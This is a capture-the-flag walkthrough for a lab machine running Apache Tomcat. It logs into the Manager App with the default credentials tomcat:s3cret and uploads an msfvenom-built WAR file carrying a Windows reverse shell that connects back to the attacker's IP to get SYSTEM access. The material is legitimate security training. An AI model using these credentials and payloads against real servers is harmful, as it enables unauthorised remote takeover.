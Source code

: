 # Enumeration

## Nmap

I start running a simple nmap scan.

```bash
nmap -sC -sV -Pn jerry.htb > nmap.txt
```

The scan shows only port 8080 open, running Apache Tomcat.

![Untitled](POC/nmap.png)

Since there’s only one place to go, I’ll see what I can find.

## Website

This looks like a default page for Apache Tomcat. Theres a few things I can click on, but the one that sticks out the most is the Manager App.

![Untitled](POC/website.png)

When I try to click on the Manager App button, I am prompted for login. Because this is a default page, my immediate thought is to try some default credentials. Googling default credentials for Tomcat returns [this](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown) handy list of credentials.

After trying a few of the basic combinations (admin:password, admin:admin, root:root), i decide to try tomcat:s3cret, which lets me in!

![Untitled](POC/admin_console.png)

Although I got lucky with trying this combination from the list of 29 combinations, I later realized that the credentials were much easier to find. By closing the login screen, this window will pop up:

![Untitled](POC/default_creds.png)

The example credentials that are given are tomcat:s3cret, which I believe was how the creator intended users to find the credentials, rather than brute forcing it. Regardless, I’m in and will now look around a bit more.

## Manager App

The first thing that catches my eye in this Manager App is the section to upload a file.

![Untitled](POC/upload.png)

Because I’m not sure what a WAR file is, it’s time to do some googling! This [wikipedia](https://en.wikipedia.org/wiki/WAR_(file_format)#:~:text=In%20software%20engineering%2C%20a%20WAR,that%20together%20constitute%20a%20web) page reveals that a WAR (Web Application Resource) file is a file used to distribute various resources needed to run a web application. These files can contain Java code, which is all I needed to hear!

# Exploitation

## WAR Payload

A bit more research shows that I can craft a payload in msfvenom formatted as a war file! Ill specify that I want a windows reverse shell, because this is a windows box, along with the ip and port to send the shell to. Using `-f` I can then tell msfvenom to format this payload as a war file.

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.5 LPORT=1234 -f war > rev.war
```

I send the full command to msfvenom and get my file outputted as `rev.war`

![Untitled](POC/msfvenom.png)

Once I upload the file, it shows up in the dashboard and it’s ready to go!

![Untitled](POC/uploaded.png)

## Reverse Shell

I’ll set up a netcat listner over port 1234 and try to run the file by clicking on the file. When I try clicking on the file, I am greeted with a 404 Status Error page.

![Untitled](POC/404.png)

After a bit of troubleshooting, I discover that this is because i formatted my reverse shell as a windows payload, formatted as a WAR file. What I should have done is was used a java payload instead. Because I used a windows payload, it gets converted to a `.jsp` (Java Service Page) and then formatted as a WAR file, so when the file is launched the system doesn’t know to launch the `.jsp`. What I need to do is find the name of the `.jsp` file so I can specify that in the URL.

This can be done by running the `jar` command against the payload, with the `-ft` commands. `-f` specifies the file, and `-t` will list the table of contents for the file.

![Untitled](POC/jar.png)

Now that I know the file name, I can add this to the end of the URL to execute the payload and get the reverse shell back to my machine.

![Untitled](POC/url_update.png)

I run a whoami to find that I have a system shell!

![Untitled](POC/system.png)

## Flags

There is a folder on the administrator desktop named flags, which contains one file that has both flags!

![Untitled](POC/flags.png)
